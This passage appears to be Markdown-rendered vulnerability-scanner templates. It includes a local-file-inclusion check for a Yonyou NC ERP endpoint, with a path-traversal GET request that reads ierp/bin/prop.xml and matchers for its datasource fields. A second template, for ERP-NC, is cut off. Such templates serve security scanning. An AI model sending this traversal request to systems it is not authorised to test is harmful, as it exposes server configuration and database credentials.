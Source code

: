 **Type - status**

- status
  1. 200

---

# Wooyun - Local File Inclusion

## Description

- Wooyun is vulnerable to local file inclusion.

- severity - high
- tags - lfi,wooyun

## Requests

- Method - GET

### URL

- {{BaseURL}}/NCFindWeb?service=IPreAlertConfigService&filename=../../ierp/bin/prop.xml

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<DataSourceClassName>
  2. \</DataSourceClassName>
- part - body
- condition - and

---

# ERP-NC - Local File Inclusion

## Description

- ERP-NC is vulnerable to local file inclusion.
- severity - high
- tags - lfi,erp-nc

## Requests
